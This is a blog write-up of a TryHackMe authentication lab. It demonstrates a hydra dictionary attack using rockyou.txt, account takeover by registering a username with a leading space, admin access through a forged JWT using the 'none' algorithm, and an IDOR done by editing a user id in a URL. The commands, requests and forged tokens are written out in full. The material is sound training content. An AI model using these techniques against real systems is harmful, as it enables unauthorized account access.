 ```yaml
---
title: 'Exploiting Common Authentication Misconfigurations'
date: 2020-07-26 00:00:00
featured_image: '/images/posts/authenticate-icon.png'
excerpt: 'Authentication system helps keeping the unauthorized users away and plays a key role in a information technology systems. Know common type of attacks on authentication systems and common misconfigurations by developers.'
---
```

![](/images/posts/authenticate.png)

Authentication is one of the key components of a system. With the rise of internet usage and the number of applications, authentication became a key part of information technology space. But when the application developers misconfigure such systems, it opens the door for unauthorized access.

This post shows attacks on the authentication system and also how a misconfigure JWT based system can be exploited, by following the [TryHackMe](https://tryhackme.com/room/authenticate) provided vulnerable application.  


### Attacks on Authentication Systems
Common attack methods used to exploit the authentication systems and networks:

- **Brute force attack** - attempts to guess the credentials based on all possible character combinations.
- **Dictionary attack** - is based on a file of words and common passwords to guess the credentials.    
- **Pass the hash attack** - in a pass the hash attack, the attacker discovers the hash of the user's password and then uses it to log on to the system as the user.
- **Birthday attack** - in this the attacker will be able to create a password that produces the same hash as the user's actual password and is also known as a hash collision.  A hash collision occurs when a hashing algorithm creates the same hash for two different inputs (passwords).  
- **Rainbow table attack** - in this the attacker attempts to discover the password by comparing the actual password hash with a huge database of precomputed hashes, called the Rainbow table.  
- **Replay attack** - capturing the data in a session with the intent of later impersonating one of the parties in the session.  

### Example misconfigurations
Here are some example misconfigurations and we can see how these can be exploited.  
- **Lack of input sanitization**  When a developer ignores the sanitization of user input like username and passwords in the application code, then such application is vulnerable to attacks like SQL injections, buffer overflow attack, Cross-site scripting (CSS).  
- **JSON Web Token (JWT) misconfiguration**  A JSON web token, or JWT (“jot”) for short, is a standardized, optionally validated and/or encrypted container format that is used to securely transfer information between two parties. A misconfiguration can lead to exploit the authentication system.  
- **NoAuth** This type of vulnerability is very rare, but when it occurs, we can access other userspace just by changing the user id in the URL after login.   

## In Action
**Deploy the VM from [TryHackMe](https://tryhackme.com/room/authenticate) to exploit the authentication vulnerabilities.**    

### 1. Dictionary Attack
1. Access the web application on port 8888, which requests to provide user name and password.
1. The attack can be performed with Burp (from intruder with Sniper) or using `hydra`.  Lets use `hydra` for this demo.
1. But before that, we need to capture the http request that is being used for authentication.
1. Start Burp tool and capture the http request by posting some random credentials, like Jack:testpwd.
   Below is the http post request that was captured.
 ```
    POST /login HTTP/1.1
    Host: 10.10.237.94:8888
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.237.94:8888/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    user=jack&password=testpwd
 ```
1. Using `hydra`, lets perform the dictionary attack (with file rockyou.txt) to get the password for  users:
   jack and mike.    
 ```bash
    $ hydra -l jack -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:47:40
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: jack   password: 12345678
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:47:57

    #mike
    $ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:48:37
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: mike   password: 12345
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:48:44
```

1. From above we can see, the attack was successful and the passwords for the users are `12345678` and `12345` respectively.
1. Login with the above credentials and capture the user flags:  
 `fad9ddc1fe--------a05f02dd89e271` and `e1faaa144df--------9284f4a5bb578`.


### Re-registration due to lack of input sanitization  
In this attack, instead of performing dictionary based, we will use the application vulnerability where the input sanitization is not performing while registering for a new account. Lets exploit this by registering a new account that resembles to target user account, but with a leading white space in the user name field.

There is a user `darren`, but we don't have the password, so let's create a new account as `\ darren` (notice a leading white space).  
Post account creation, log in with the new user ` darren`, but the application logs into `darren` and capture the flag fe86079416a--------37fea8874b667.

![](/images/posts/authenticate-sample-account.png){:height="60%" width="60%"}

Repeat the same procedure for user `arthur`, by creating a new user account with user name as `\ arthur` and login to capture the flag:  
 `d9ac0f7d--------ac3edeb75d75e16e`.

### JSON Web Token  

A JWT contains three parts in the format [ Header ].[ Payload ].[ Signature ]  
Please refer to the article for more details on [JWT](https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843).

1. Access the web application on port 5000 and authenticate with user:user
1. Capture the JWT token either from Burp or using a `browser-->web developer tools-->Storage--> Local Storage`.  
   
  JWT Token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA`  

  Complete Post request:  

 ```
      GET /protected HTTP/1.1
      Host: 10.10.237.94:5000
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: */*
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: http://10.10.237.94:5000/
      Content-Type: application/json
      Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA
      DNT: 1
      Connection: close
 ```
1. The first two parts of a JWT token can be decoded using base64 decoder or from this [JWT debugger](https://jwt.io/#debugger-io).  
    ![](/images/posts/jwt-debugger.png){:height="100%" width="100%"}  
1. From the header decoded information, we can see, the algorithm using is `HS256` and in the payload, the identity is 1, which could be user ids.  
1. Let us exploit the misconfigured application, where the authentication system is not validating the tokens properly.   
1. Modify the token by making the algorithm to NONE, identity as 0 (assuming 0 is the admin account) and the third part is not required as the algorithm is NONE.
1. Encode first two parts with base64 [encoder](https://www.base64encode.org):   
`{"typ":"JWT","alg":"NONE"}` --> `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=`
`{"exp": 1595791681, "iat": 1595791381,"nbf": 1595791381, "identity": 0}` --> `eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=`
1. The new JWT token for admin is now ready, `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=.eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=.` and replace this in the browser session and click GO.
1. We now logged into the application with the `admin` user as shown in the below image.  

![](/images/posts/JWT-admin-login.png){:height="60%" width="60%"}

### No Auth
As mentioned earlier, this type of vulnerability is very rare in today's application but exists when designed the application poorly.  

1. Access the application on port 7777.
2. Create a new account and login.  
3. Visit private space and you can notice the url `http://10.10.237.94:7777/users/1`
4. Change the user id 1 with 0, which access the superadmin's private space.  

### Conclusion
The Authentication and Authorization system are very critical in information technology space, a misconfigured system will open the door for attackers. Implementing the policies like Account lockouts, password complexities, salting the passwords, multi factor authentication, using strong hash algorithms for storing the credentials and performing the input sanitization when allowing users to input the data can help in avoiding the exploitation of authentication systems.  

###### References:  
1. Image and exploitable VM credits: [TryHackMe](https://tryhackme.com/room/authenticate)  
1. Gibson, D. (2014). Protecting Against Advanced Attacks. In CompTIA Security+ get certified get ahead SYO-401 study guide. YCDA, LLC.  
1. Koretskyi, M. (2018, June 26). A plain English introduction to JSON web tokens (JWT): what it is and what it isn't. Medium. https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843.  
